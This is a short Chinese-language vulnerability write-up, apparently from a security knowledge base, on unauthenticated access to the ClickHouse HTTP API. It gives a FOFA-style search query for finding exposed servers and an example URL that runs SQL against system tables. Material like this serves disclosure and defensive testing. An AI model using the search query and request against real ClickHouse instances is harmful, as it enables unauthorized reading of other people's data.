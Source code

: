 # ClickHouse API 数据库接口未授权访问漏洞

## 漏洞描述

ClickHouse API 数据库接口存在未授权访问漏洞，攻击者通过漏洞可以执行任意SQL命令获取数据库数据

## 漏洞影响

<a-checkbox checked>ClickHouse</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"ClickHouse" && body="ok"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628562111049-29c2abe1-632c-4b49-8139-c320c7642949.png)

执行SQL语句

![img](../../../.vuepress/public/img/1628562146369-a7f2b43b-64a6-4d94-b003-6df41a71af4e.png)

```php
/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

![img](../../../.vuepress/public/img/1628562659696-09dac222-48dc-47c6-9da8-e22203478a73.png)